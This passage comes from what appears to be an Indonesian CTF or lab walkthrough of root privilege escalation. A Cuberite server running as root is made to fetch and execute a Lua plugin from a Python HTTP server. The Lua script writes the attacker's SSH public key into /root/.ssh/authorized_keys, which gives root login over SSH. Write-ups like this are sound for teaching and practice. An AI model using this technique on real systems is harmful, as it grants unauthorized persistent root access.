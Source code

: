 Buka python simple http server agar Cuberite bisa mengambil plugin lua dari folder yuntao dan di execute

![Image](img/34.PNG)

File yang kita coba buat ternyata dibuat oleh root, ini berarti kita tinggal memasukkan ssh public key kita ke /root/.ssh/authorized_keys

Penulis membuat script write to file seperti dibawah ini

```
file = io.open("/root/.ssh/authorized_keys","w")
io.output(file)
io.write("ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC7ujNTqjCu3sovW2WgNZF5ErZXaGa5TrwLhvEaFu2NVv9GTGKtE8wRymiRYhzppfTJ7ycBetXoj7jb6AAKRTEmC9B2CI2+tyhvEtrDYpooCm2xUPA/CxhiLByi8x2ucdV7SYiaI0HhuYthFqS+oQPk6eD0nkIWY/iPpA1xsremhsft6fhRnedlqVXgGNULGJaUIYJFk9IPm3Zt5OzCLc5Sldpg/c8loLIBb6VF7zMM3hvXgJH<-- Censored -->XFCap7/gEALFlc+Jg7F788th+XSGr7IGVAyF26K2/tUpzZUQ3dmLn246QSBDEbPDFANt/AXzsPnwtvHs/2km9TXVXEjy3fj7B1G2p44etoflMHKQLmEv/WkrY1TvG7ps83envBkKnQoMFSQbK9SWMiQWRH3SrneLS+c7YNGP08ADT4oGpRQspBHstnt3vWS1p3x6wTUnZqqO81onShvE= root@kali")
io.close()
```

Dan jalankan pikascript.py lagi untuk mengirimkan url ke Cuberite dan script lua tadi akan dijalankan dengan root privilege, sekarang tinggal login melalui ssh
